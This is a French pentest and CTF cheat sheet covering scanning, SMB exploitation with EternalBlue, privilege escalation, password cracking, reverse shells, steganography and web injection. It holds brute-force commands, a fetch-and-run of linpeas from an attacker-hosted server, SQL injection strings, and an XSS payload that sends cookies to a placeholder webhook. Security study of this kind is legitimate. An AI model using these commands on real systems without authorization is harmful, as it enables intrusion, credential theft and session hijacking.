

## 1. Scan et reconnaissance

### Nmap 

#### Scan standard

```bash
sudo nmap -sC -sV -p- <IP>
```

#### Scan léger (soft)

```bash
sudo nmap -sV -O -p 1-1000 --version-light <IP>
```

#### Scan avancé (hard)

```bash
sudo nmap -A -p- --script=vuln <IP>
```

### Gobuster (Bruteforce de répertoires)

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/big.txt -x php,html
```

### Hydra (Bruteforce d'authentification)

#### SSH

```bash
hydra -l <nom_utilisateur> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

## 2. Exploitation de SMB

SMB (Server Message Block) est un protocole réseau utilisé pour le partage de fichiers et imprimantes, fonctionnant sur les ports `139` et `445`.

### Enumération SMB

#### Avec `smbclient`

```bash
smbclient -L //<IP> -N
```

#### Avec `enum4linux`

```bash
enum4linux -a <IP>
```

### Accès aux partages SMB

```bash
smbclient //<IP>/<partage> -U <utilisateur>
```

### Recherche de vulnérabilités SMB

```bash
sudo nmap --script smb-vuln* -p 139,445 <IP>
```

### Exploitation avec Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <IP>
exploit
```

## 3. Escalade de privilèges

### Recherche de fichiers avec le bit SUID

```bash
find / -type f -perm -4000 2>/dev/null
```

### Utilisation de `linpeas`

#### Téléchargement et exécution

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240915-f58aa30b/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Exécution depuis une machine distante

Sur la machine attaquante :

```bash
python3 -m http.server 8000
```

Sur la machine cible :

```bash
cd /tmp
wget http://<IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 4. Cracking de mots de passe

### John the Ripper (SSH Key Password)

#### Conversion de la clé SSH

```bash
/usr/share/john/ssh2john.py <chemin_vers_ta_clé> > hash_john.txt
```

#### Cracking du hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_john.txt
```

#### Affichage du mot de passe trouvé

```bash
john --show hash_john.txt
```

### Hashcat

```bash
hashcat -a 0 -m <ID-Algo> hash.txt -o cracked.txt /usr/share/wordlists/rockyou.txt
```

## 5. Reverse Shell

### Reverse Shell PHP

```bash
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
### Amélioration du terminal

#### Transformer en TTY interactif

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Passage en mode raw

```bash
stty raw -echo
```

#### Adaptation du terminal

```bash
export TERM=xterm
export SHELL=/bin/bash
```

### Ressources supplémentaires

- [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)

- [RevShells](https://www.revshells.com/)

## 6. Recherche de fichiers

```bash
find / -type f -name "<nom-fichier>" 2>/dev/null
```

## 7. Lancer un serveur HTTP

```bash
python3 -m http.server 8000
```

## 8. Stéganographie

### Steghide

#### Cacher un fichier dans une image

```bash
steghide embed -cf image.jpg -ef secret.txt -p password
```

#### Extraire un fichier caché

```bash
steghide extract -sf image.jpg -p password
```

### Exiftool (métadonnées)

```bash
exiftool image.jpg
```

### Binwalk (analyse de fichiers binaires)

```bash
binwalk -e image.jpg
```

### Outguess

#### Cacher un fichier

```bash
outguess -k "password" -d secret.txt image.jpg output.jpg
```

#### Extraire un fichier

```bash
outguess -k "password" -r output.jpg secret.txt
```

## 9. Exploitation Web

### Injection SQL

#### Input Box Non-String

```sql
1 or 1=1-- -
```
#### Input Box String

```sql
1' or '1'='1'-- -
```

### Injection XSS 

#### Classique

```html
<script>alert('XSS')</script>
```
#### Redirection

```html
<script>window.location.href="{tonlienwebhook&var}".concat(document.cookie)</script>
```


## 10. Outils Kali Linux

- **Burp Suite** : Interception des requêtes HTTP.
    
- **Sqlmap** : Détection et exploitation des injections SQL.
    
- **Metasploit** : Exploitation automatique de vulnérabilités.
    
- **Nikto** : Scan des failles web.
    
- **Dirb** : Recherche de répertoires cachés.

## 11. Ressources utiles

- [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/)

- [OWASP](https://owasp.org/www-project-top-ten/#)

- [NIST](https://www.nist.gov/)

- [MITRE ATT&CK®](https://attack.mitre.org/)

- [Clusif](https://clusif.fr/)

- [CVE](https://cve.mitre.org/)

